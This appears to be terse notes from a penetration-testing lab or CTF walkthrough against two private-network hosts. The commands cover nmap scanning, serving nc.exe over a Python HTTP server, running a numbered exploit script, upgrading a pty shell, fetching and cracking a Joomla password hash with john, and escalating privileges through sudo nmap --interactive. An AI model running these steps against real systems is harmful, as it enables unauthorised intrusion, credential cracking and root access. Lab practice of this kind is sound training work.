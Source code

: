 192.168.1.12 ubuntu

192.168.1.13 windows

**nmap scan ports**

```
#> nmap -sV -sC 192.168.1.12

```



**start a simple http server**

```
#> python3 -m http.server 80
```



**prepare nc.exe on Kali**

```
#> cp /usr/share/windows-binaries/nc.exe .
```

------
python ./39161.py 192.168.1.13 80
------



**spawn bash shell**

```
$ python -c "import pty;pty.spawn('/bin/bash')"

ctrl-z

$ stty raw -echo
$ fg
```



**crack the hash**

192.168.1.12/joomla/password

```
curl 192.168.1.12/joomla/password -o passwd
```





<https://crackstation.net/>

```
$ hash-identifier

$ john --format=raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt ./pwd.hash
$ john --format=raw-MD5 --show ./pwd.hash
```



```
http://192.168.1.12/joomla/templates/protostar/index.php
```

```
sudo -l 

sudo nmap --interactive
!bash
```

